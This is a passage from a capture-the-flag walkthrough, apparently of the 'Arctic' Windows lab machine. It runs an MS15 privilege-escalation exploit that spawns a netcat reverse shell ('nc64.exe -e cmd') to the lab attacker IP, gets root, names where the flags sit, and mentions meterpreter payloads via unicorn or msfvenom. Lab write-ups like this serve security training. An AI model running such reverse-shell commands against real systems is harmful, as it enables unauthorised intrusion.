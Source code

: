 so we create a listner and also run this code 

```sh
.\Ms15.exe "nc64.exe -e cmd 10.10.14.9 1339"
```

![](/Windows/Windows-Easy/Arctic/Screenshots/ms15ex.png)

and just by that we get the root privillage.

![](/Windows/Windows-Easy/Arctic/Screenshots/rootpriv.png)

and just by that we can get the user flag in `C:\users\tolis\desktop\user.txt` and root flag on 

![](/Windows/Windows-Easy/Arctic/Screenshots/flags.png)
## METERPRETER

it execute but nothing of impormtance so what we do is to be able to load a meterpreter shell with this exploit form [unicorn](https://github.com/trustedsec/unicorn/blob/master/unicorn.py)  or using `msvenom`
